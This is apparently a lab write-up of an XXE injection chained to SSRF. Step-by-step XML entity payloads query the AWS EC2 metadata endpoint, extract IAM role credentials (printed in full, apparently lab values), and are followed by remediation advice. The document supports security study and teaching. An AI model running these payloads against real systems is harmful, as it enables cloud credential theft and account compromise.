


# XXE Injection to SSRF – AWS EC2 Metadata Exfiltration

## Vulnerability Overview

An **XML External Entity (XXE) injection** vulnerability was identified in the stock check feature, which was escalated to **Server-Side Request Forgery (SSRF)** to access the AWS EC2 metadata endpoint. This allowed extraction of the IAM secret access key, demonstrating how an XXE vulnerability can compromise cloud infrastructure credentials.

**Severity:** Critical  
**CWE:** CWE-611 (XXE) → CWE-918 (SSRF)  
**OWASP Top 10:** A03:2021 – Injection / A10:2021 – SSRF  
---

### Vulnerable Endpoint

- **Endpoint:** Stock Check API (POST request)
- **Content-Type:** `application/xml`
- **Response Behavior:** Returns any unexpected values in the error message, enabling out-of-band data exfiltration via in-band response.

### Initial Request Structure

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

> **[Screenshot 1: Original stock check request in Burp Suite]**
  

---

## Exploitation – Step-by-Step Enumeration

### Step 1: Initial XXE Payload

Inserted an external entity pointing to the EC2 metadata base URL:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

**Response:**
```
"Invalid product ID: latest"
```

The response revealed the first directory: `latest`.

### Step 2: Iterative Directory Traversal

Appended the discovered path and resubmitted:

```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest"> ]>
```

**Response:** `"Invalid product ID: meta-data"`

Continued enumeration through the metadata API path:

| Request URL Path | Response (Directory Discovered) |
|------------------|----------------------------------|
| `/latest/meta-data` | `iam/` |
| `/latest/meta-data/iam` | `security-credentials/` |
| `/latest/meta-data/iam/security-credentials` | `admin` |

### Step 3: Final Payload – Credential Extraction

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

**Final Response:**
```json
{
  "Code" : "Success",
  "LastUpdated" : "2026-06-03T11:40:07.896553146Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "EXBhECBYTI69UJ3kwbz6",
  "SecretAccessKey" : "5qjsfGEibTVJmLy1hqSw9F4oKf5rGBZA4jfXYwVQ",
  "Token" : "l9E5wT6UqnilvhVD5NzIml0SCieF7IAoQFtoaPUlUYtFkQrQ8myYyfZMFIWjKCUGJ9r343HxL9UT7jcrhS8PNjPiiDXZHcghdcW6tQnnwcXwTL746bmsh6gwmiWZvOcPDVs2yPKG92ts8A18v7yvffRNHFZRiAwM2eynADcR5ihDHiYSgtSOTLGmmC0JpmP14ikZPy2IXhvHHoX9s9DCU5qYg0KFCxZvjjbiNjezx1n3dP2by65KWDpna0twbAJd",
  "Expiration" : "2032-06-01T11:40:07.896553146Z"
}
```

> **[Screenshot 2: Burp Suite response showing the full IAM credentials including SecretAccessKey]**
  

---

## Impact

This vulnerability chain results in:

- **Cloud Account Compromise:** The extracted IAM credentials grant access to AWS services with the permissions assigned to the compromised instance role.
- **Lateral Movement:** Attackers can enumerate and access other cloud resources (S3 buckets, databases, other EC2 instances).
- **Data Breach:** Sensitive data stored in cloud services becomes accessible.
- **Persistence & Privilege Escalation:** Tokens can be used to create persistent backdoors or escalate privileges within the AWS environment.

---

## Remediation Recommendations

### XXE Prevention

1. **Disable External Entity Processing:**
   ```java
   DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
   dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
   dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
   ```
2. **Use JSON** instead of XML where possible.

### SSRF Prevention

3. **Block Metadata Access** – Use `iptables` or instance metadata service v2 (IMDSv2) to prevent unauthorized access:
   ```bash
   aws ec2 modify-instance-metadata-options --http-tokens required
   ```
4. **Network Segmentation** – Restrict outbound requests from the application server to trusted endpoints only.
5. **Input Validation** – Implement a strict allowlist for any URLs or IP addresses accepted by the application.

### Defense in Depth

6. **Least Privilege IAM Roles** – Assign minimal permissions to EC2 instance roles.
7. **WAF Rules** – Deploy web application firewall rules to detect and block XXE/SSRF payloads.


